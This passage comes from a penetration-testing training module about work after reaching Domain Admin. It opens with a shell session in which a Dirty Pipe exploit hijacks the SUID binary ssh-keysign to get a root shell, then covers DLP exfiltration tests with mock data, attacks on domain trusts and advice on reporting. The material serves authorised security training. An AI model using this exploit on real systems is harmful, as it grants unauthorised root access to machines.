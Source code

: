 ```shell-session
ssmallsadm@MGMT01:~$ ./dirtypipe /usr/lib/openssh/ssh-keysign

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root),1001(ssmallsadm)
```

From here we could perform post-exploitation of the file system to prove the level of access we achieved.

***

## Data Exfiltration Simulation

Some clients may want to test their `Data Loss Prevention` (`DLP`) capabilities, so we could experiment with various ways to exfiltrate mock data from their network to see if we are detected. We should work with the client to understand what types of data they are trying to protect and proceed accordingly. It's best to use mock data so we don't have to deal with any highly sensitive client data on our testing system.

***

## Attacking Domain Trusts

If there are any domain trusts we could use our skills to enumerate these relationships and exploit either a child --> parent trust relationship, intra-forest trust, or an external forest trust. Before doing so, we should check with the client to make sure the target domain is in scope for testing. Sometimes we'll compromise a less import domain and be able to use this access to fully take over the principal domain. This can provide a lot of value to the client as they may have set up trust relationships hastily as the result of a merger & acquisition or connecting to some other organization. Their domain may be well-hardened, but what if we are able to Kerberoast across a forest trust, compromise a partner forest, and then find an account in the partner forest that has full admin rights in our current domain. In this situation we could demonstrate to our client that the main weakness isn't in the domain we are testing in but another so they can proceed accordingly.

***

## Closing Thoughts

This section showed a sampling of the things we can do `AFTER` achieving Domain Admin in a client environment. Showing up, pwning the client and showing off how fast you got DA does no good for the client and does not help you and your firm retain clients and spread a solid reputation around. What we do after achieving Domain Admin is extremely important and this is where we can set ourselves apart from other testers who just run Responder, a few other tools and scripts, a Nessus scan, and issue a stock report and call it a day. Your report deliverable should demonstrate the worth of the penetration test your client is paying for and we can make sure they are happy and come back in the following years if we go above and beyond. This is not always possible due to contract restrictions and time-boxed assessments, but even if we can provide a little extra we're ahead of the pack. Keep in mind that the things we identify in our report can impact a client's funding for the following year and that funding likely includes penetration tests. We don't want to inflate the report with nonsensical findings, of course, but we can often identify many things that our client had never even considered and they and you will be better for it.
